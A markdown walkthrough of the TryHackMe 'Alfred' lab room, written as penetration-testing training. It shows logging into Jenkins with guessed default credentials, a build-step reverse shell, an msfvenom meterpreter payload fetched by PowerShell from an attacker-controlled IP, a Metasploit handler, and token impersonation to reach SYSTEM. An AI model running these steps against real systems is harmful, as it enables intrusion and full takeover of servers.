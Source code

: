 ```yaml
---
slug: alfred-walkthrough
title: TryHackMe - Alfred - Walkthrough
authors: bw
tags: [learning, alfred, tryhackme, walkthrough]
---
```


This is a walkthrough for the room: [Alfred][alfred] on [TryHackMe][thm]. Let’s get started!

# Initial Access
First question is asking about how many TCP ports are open, however it does note that the server will not respond to ping, so we need to run the `-Pn` option for our `nmap` scan.

![a1](/src/img/thm/steelmountain/a1.png)

We see that this is clearly a Microsoft server, and there is a website on port 80 and 8080. Let’s take a look!

![a2](/src/img/thm/steelmountain/a2.png)

Wow, poor Batman! We know we are looking for login information since the next question asks for it. So there has to be some sort of login page. Let’s try checking 8080.

![a3](/src/img/thm/steelmountain/a3.webp)

Bingo! Now we still need a login. Let’s try some default credentials. After looking up Jenkins default credentials: `admin:password` trying that doesn’t work. Let’s try `admin:admin`. That works!

**NOTE:** I got lucky here by guessing default creds, but you could brute force this with hydra if it was more difficult.

Next, the room tells us to find a feature of the system that allows us to run commands. From there we can get a reverse shell on our machine using the command they give us.

If we navigate into the already created project, we can explore some more. Eventually, we get to **Configure**. In here under **Build**, we can run commands on the local system.

Before we do this, we need to download the script the room gives us ([here][nishang]) to our local machine. And then setup our python server:

`python3 -m http.server 80`

Then open a new terminal tab and start a netcat listener:

`nc -nvlp 1234`

Now, let’s enter our commands we want the server to execute. (These are given to us)

![a4](/src/img/thm/steelmountain/a4.png)

Click **Apply**, **Save** then select **Build Now**. If you go to your netcat listener terminal, you should now have a shell!

![a5](/src/img/thm/steelmountain/a5.png)

Now that we are in, we can look for the user flag!

![a6](/src/img/thm/steelmountain/a6.png)

Alright! Next section.

# Switching Shells
First step is to create our payload. Let’s open a new terminal and put in the commands given:

```bash
msfvenom -p windows/meterpreter/reverse_tcp -a x86 --encoder x86/shikata_ga_nai LHOST=<thm_vpn_ip> LPORT=1235 -f exe -o win_shell.exe
```
With the output, we get our next answer:

![a7](/src/img/thm/steelmountain/a7-1.webp)

Now we need to download the payload to the machine. Utilize the command given and run it in our shell on the victim machine.

`powershell "(New-Object System.Net.WebClient).Downloadfile('http://<thm_vpn_ip>:80/shell-name.exe','shell-name.exe')"`
**NOTE:** If you stopped your Python webserver earlier, you will need to start that again under the folder where you save the payload: python3 -m http.server 80

Now, once again we need to start a listener, but since this is a `meterpreter` shell, we will need to use metasploit. Open a new terminal:

```bash
msfconsole
use exploit/multi/handler
set payload windows/meterpreter/reverse_tcp
set lhost tun0
set lport 1235
run
```

Now that our listener is running, let’s start the payload by entering `Start-Process "shell-name.exe"` in the current shell on the victim machine.

You should now have a shell in metasploit!

# Privilege Escalation
Let’s follow along with the instructions. Type `shell` and then `whoami /priv`

Exit the local shell: `exit`, and run the following:

```bash
load incognito
list_tokens -g
impersonate_token "BUILTIN\Administrators"
getuid
```
Just like the room says, we need to migrate to a process that is running as `NT AUTHORITY\SYSTEM`. Lets run `ps` and look for the `services.exe` process.

![a8](/src/img/thm/steelmountain/a8.png)

From here we can run the following command: `migrate 668`

There let’s get the root flag!

![a9](/src/img/thm/steelmountain/a9.png)

# Review
This was a good in-between room. It was sort of a walkthrough but also didn’t give you all the information similar to a CTF. It was an easy room, but I definitely enjoyed it! See ya next time!

# References
[Alfred][alfred] | [TryHackMe][thm] | [Nishang][nishang]

[alfred]: https://tryhackme.com/why-subscribe?roomCode=alfred
[thm]: https://tryhackme.com
[nishang]: https://github.com/samratashok/nishang
